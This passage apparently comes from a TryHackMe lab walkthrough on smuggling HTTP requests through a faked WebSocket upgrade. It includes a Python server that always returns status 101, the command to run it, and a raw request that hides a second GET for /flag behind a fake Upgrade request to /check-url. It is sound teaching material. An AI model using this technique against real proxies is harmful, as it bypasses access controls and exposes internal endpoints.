 ```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named myserver.py in our AttackBox and run it with the following command:

```bash
user@attackbox$ python3 myserver.py 5555
```

This should spin up a web server on port 5555 that will reply with a 101 status code to any request.


### Faking a WebSocket

We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to /check-url against our malicious server. The request should look like this:

```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: 10.10.194.170:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.194.170:8002

```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp (note that you need to add two newlines at the end of your payload in Burp):

![Smuggling a request through a fake websocket connection](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/4c210998e9e3ff3cd2bbad3ed5d92fe7.png)  

Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.
